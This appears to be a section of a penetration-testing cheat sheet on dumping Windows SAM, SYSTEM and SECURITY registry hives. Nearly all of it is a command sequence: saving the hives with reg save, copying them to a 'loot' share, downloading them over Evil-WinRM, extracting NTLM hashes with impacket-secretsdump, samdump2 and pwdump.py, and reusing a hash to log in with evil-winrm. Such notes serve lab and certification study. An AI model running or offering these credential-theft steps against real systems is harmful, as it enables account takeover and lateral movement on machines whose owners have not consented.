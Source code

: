 #### SAM and SYSTEM Files

Always check the SAM if there's any sort of backup or loose permissions in SMB. If you're ever able to run into the SAM or SYSTEM files in Windows smb or filesystem:
They are typically located in "C:\Windows\System32\config".

```bash
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system

reg save hklm\security c:\security
reg save hklm\sam c:\sam
reg save hklm\system c:\system

copy C:\sam z:\loot
copy c:\security z:\loot
c:\system z:\loot

*Evil-WinRM* PS C:\windows.old\Windows\system32> download SAM
*Evil-WinRM* PS C:\windows.old\Windows\system32> download SYSTEM


TRY IT WITHOUT PUTTING THE PASSWORD IN THE PROMPT

impacket-secretsdump -sam SAM -system SYSTEM LOCAL
/opt/impacket/examples/secretsdump.py -sam sam -security security -system system LOCAL
impacket-secretsdump Admin:'password'@$ip -outputfile hashes
impacket-secretsdump Admin:@$ip -outputfile hashes

samdump2 SYSTEM SAM
*disabled* Admin:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

# creddump7 - Python tool to extract credentials and secrets from Windows registry hives
/usr/share/creddump7
├── cachedump.py
├── framework
├── lsadump.py
├── pwdump.py
└── __pycache_

./pwdump.py /home/kali/Documents/example/exampleA/10.10.124.142/loot/SYSTEM /home/kali/Documents/example/exampleA/10.10.124.142/loot/SAM    
Admin:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

evil-winrm -i $dc -u $user -H $hash
```

This will provide hashes that you will be able to crack.

#### Windows Password Spraying
